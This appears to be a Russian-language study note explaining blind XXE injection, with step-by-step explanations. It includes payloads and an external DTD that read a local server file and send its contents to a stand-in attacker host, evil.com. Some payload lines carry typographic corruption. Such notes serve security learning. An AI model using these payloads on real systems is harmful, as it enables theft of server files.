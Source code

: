 Так же как и XSS blind это слепые уязвимости которые напрямую не выдают ответ. При таком сценарии есть вариант эксплуатации. Ход событий при эксплуатации слепой XXE

### Поиск данной уязвимости 

Проверка наличия уязвимости Blind XXE (XML External Entity) можно пропинговать. Настроив сервер на запись логов о входящих запросов
```
 <?xml version="1.0" encoding="utf-8"?>
 <!DOCTYPE example [
   <!ENTITY xxe SYSTEM "https://evil.com/externalDTD">
 ]>
 <example>
	 &xxe;
 </example>
```
![[Pasted image 20250114151441.png]]

Или **параметризованная внешняя сущность**
```
<Pxml version="1.0" encoding="utf-8"?>
<! DOCTYPE example [
	‹!ENTITY % xxe SYSTEM
		"https://*free.beeceptor.com/xxe_endpoint"›
	%xxe;
]>
<example> 
</examples
```
##### Что здесь происходит?

1. **Объявление XML-документа**:
    - `<?xml version="1.0" encoding="utf-8"?>` — это стандартное объявление XML-документа. Оно указывает версию XML и кодировку.
    
1. **Определение DTD**:
    - `<!DOCTYPE example [...]>` — это определение DTD (Document Type Definition). Оно описывает структуру документа и может содержать сущности.
    
1. **Параметризованная внешняя сущность**:
    - `<!ENTITY % xxe SYSTEM "https://free.beeceptor.com/xxe_endpoint">` — это определение **параметризованной внешней сущности**.
        
        - `%xxe;` — это имя сущности. Оно начинается с `%`, что указывает на то, что это параметрическая сущность.
            
        - `SYSTEM "https://free.beeceptor.com/xxe_endpoint"` — это указание на внешний ресурс (в данном случае — URL).

4. **Использование параметрической сущности**:
    
    - `%xxe;` — это вызов параметрической сущности. Когда XML-парсер обрабатывает этот код, он пытается загрузить данные по указанному URL (`https://free.beeceptor.com/xxe_endpoint`).

5. **Тело XML-документа**:
    
    - `<example></example>` — это корневой элемент XML-документа. В данном случае он пустой.

##### В этом примере:
1. `%xxe;` загружает содержимое файла `/etc/passwd`.
2. `%param;` создает новую сущность `%query;`, которая отправляет данные на сервер злоумышленника (`https://evil.com/xxe_endpoint`).
3. `&query;` выполняет запрос, отправляя содержимое файла на удаленный сервер.

# Пример раскрутки данной уязвимости 

1. Подготовка XML-запроса:
   - Атакующий формирует XML-документ с использованием внешнего DTD:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE r [
  <!ELEMENT r ANY>
  <!ENTITY % extDTD SYSTEM "https://evil.com/externalDTD">
  %extDTD; <!-- Загружает внешний DTD -->
  %param;  <!-- Здесь определена сущность %param -->
  %query;  <!-- Здесь определена сущность %query -->
]>
<r></r>
```

### Как это работает?
- **Внешний DTD**: Атакующий указывает URL на внешний DTD (`https://evil.com/externalDTD`), который будет загружен сервером.
- **Сущности**: Внешний DTD определяет сущности, которые будут использоваться для извлечения данных.

## 2. Сервер обрабатывает запрос

Сервер принимает XML-документ и пытается его обработать. В процессе обработки сервер загружает внешний DTD из указанного URL.

### Что происходит на сервере?
1. **Загрузка DTD**: Сервер загружает DTD с `https://evil.com/externalDTD`.
2. **Определение сущностей**: Внешний DTD определяет сущности, которые будут использоваться для извлечения данных.

### Пример внешнего DTD:
```
<!ENTITY % file SYSTEM "file:///path/to/file">
<!ENTITY % param "<!ENTITY &#x25; query SYSTEM 'https://evil.com/xxe_endpoint?data=%file;'>">
```

#### Как это работает?
- **Сущность `%file`**: Указывает на локальный файл, который нужно извлечь.
- **Сущность `%param`**: Определяет сущность `%query`, которая будет использоваться для отправки данных на сервер злоумышленника

- `&#x25;` — это числовая ссылка на символ `%` (процент).
    - `&#x` указывает, что используется шестнадцатеричное представление.        
    - `25` — это шестнадцатеричное значение символа `%` в таблице ASCII/Unicode.
	Это надо чтоб использовать символ `%` внутри значения сущности, тем самым его нужно экранировать, чтобы он не интерпретировался как начало новой параметрической сущности.
## 3. Определение сущностей на сервере

Сервер возвращает ответ, содержащий определения сущностей, которые будут использоваться для извлечения данных.

## 4. Вызов параметра

Парсер использует сущность `%param`, что приводит к вызову сущности `%query`. Это вызывает запрос к серверу злоумышленника с данными из локального файла.

### Пример вызова параметра:
```
<!ENTITY &#x25; query SYSTEM 'https://evil.com/xxe_endpoint?data=%file;'>
```
#### Как это работает?
- **Запрос к серверу злоумышленника**: Парсер отправляет запрос на `https://evil.com/xxe_endpoint` с данными из локального файла.
- **Передача данных**: Данные из локального файла передаются в параметре `data`.


